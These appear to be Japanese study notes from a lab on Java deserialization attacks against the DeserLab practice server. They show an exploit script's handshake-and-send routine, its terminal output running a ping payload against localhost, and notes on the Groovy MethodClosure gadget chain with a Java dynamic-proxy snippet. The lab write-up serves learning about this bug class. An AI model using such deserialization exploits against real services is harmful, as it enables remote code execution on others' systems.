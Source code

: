 ```python
    logging.debug("target %s" % myargs.targetip)
    logging.debug("port %s" % myargs.targetport)
    mydeser = deser(myargs.targetip, myargs.targetport)
    logging.info("Connecting")
    mydeser.connect()
    logging.info("java serialization handshake")
    mydeser.javaserial()
    logging.info("protocol specific handshake")
    mydeser.protohello()
    logging.info("protocol specific version handshake")
    mydeser.protoversion()
    logging.info("sending name of connected client")
    mydeser.clientname()
    logging.info("exploiting")
    mydeser.exploit(myargs.payloadfile)
```
これで`ping 127.0.0.1`が実行できている！   
```txt
root@kali:~/Documents/AWAE/javaDeserialization/DeserLab# python deserlab_exploit.py 127.0.0.1 9000 payload.bin 
2020-12-14 03:19:04,793 - DEBUG - target 127.0.0.1
2020-12-14 03:19:04,793 - DEBUG - port 9000
2020-12-14 03:19:04,793 - INFO - Connecting
2020-12-14 03:19:04,794 - INFO - java serialization handshake
2020-12-14 03:19:04,795 - DEBUG - server javaserial resp: aced0005
2020-12-14 03:19:04,796 - INFO - protocol specific handshake
2020-12-14 03:19:04,835 - DEBUG - server proto hello f000baaa
2020-12-14 03:19:04,836 - INFO - protocol specific version handshake
2020-12-14 03:19:04,928 - DEBUG - server version 0101
2020-12-14 03:19:04,928 - INFO - sending name of connected client
2020-12-14 03:19:04,928 - INFO - exploiting
2020-12-14 03:19:04,982 - DEBUG - after exploit: srjava.lang.ClassCastException���g�\
root@kali:~/Documents/AWAE/javaDeserialization/DeserLab# 
```
![image](https://user-images.githubusercontent.com/56021519/102057416-3b0d9e80-3e31-11eb-90e8-572c99862f37.png)   
## manually exploit
ysoserialの部分を自作する的な？   
https://www.sourceclear.com/vulnerability-database/security/remote-code-execution-through-object-deserialization/java/sid-1710/technical   
```txt
The MethodClosure class in runtime/MethodClosure.java in Apache Groovy 1.7.0 through 2.4.3 allows remote attackers to execute arbitrary code or cause a denial of service via a crafted serialized object.
```
Apache GroovyのMethodClosureクラスが`MethodClosure method = new MethodClosure(command, "execute");`みたいにしてインスタンスを作成するだけでコードが実行されてしまうことが問題？ではない！MethodClosureクラスがデシリアライズ可能なことが問題。このクラスはインスタンスを作成するだけでコードが実行されてしまう仕様なのでそもそもデシリアライズしないようにする必要がある！   
   
entrypointをMyClassとして以下の概略に示す。   
つまり、MyClassのthis.map.putメソッドが呼び出されたら最終的に`new DynamicInvocationHandler()`ハンドラーが実行されるようにする。   
```java
import java.util.*;
import java.lang.reflect.*;

public class Main {
    public static void main(String[] args) throws Exception {
        // 動的プロキシを作成。
	// Map型なので、proxyinstanceでMapクラスのメソッドを呼び出すと、DynamicInvocationHandlerのinvokeメソッドを経由して実行する
        Map proxyInstance = (Map) Proxy.newProxyInstance(
            Main.class.getClassLoader(),
        new Class[]{ Map.class },
        new DynamicInvocationHandler());
        
```